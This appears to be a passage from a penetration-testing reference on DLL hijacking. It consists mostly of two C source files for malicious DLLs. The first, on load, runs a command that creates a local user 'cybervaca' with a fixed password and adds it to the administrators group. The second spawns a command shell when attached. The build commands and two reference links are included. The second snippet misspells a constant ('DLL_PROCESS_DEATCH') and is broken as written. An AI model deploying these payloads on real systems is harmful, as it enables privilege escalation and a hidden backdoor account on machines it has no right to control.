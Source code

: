 ```c
//x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
//x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a

#include <windows.h>

int owned()
{
  WinExec("cmd.exe /c net user cybervaca Password01 ; net localgroup administrators cybervaca /add", 0);
  exit(0);
  return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
  owned();
  return 0;
}
```

```c
//Another possible DLL
// i686-w64-mingw32-gcc windows_dll.c -shared -lws2_32 -o output.dll

#include<windows.h>
#include<stdlib.h>
#include<stdio.h>

void Entry (){ //Default function that is executed when the DLL is loaded
    system("cmd");
}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call){
        case DLL_PROCESS_ATTACH:
            CreateThread(0,0, (LPTHREAD_START_ROUTINE)Entry,0,0,0);
            break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DEATCH:
            break;
    }
    return TRUE;
}
```

## References

- [https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e](https://medium.com/@pranaybafna/tcapt-dll-hijacking-888d181ede8e)
- [https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)
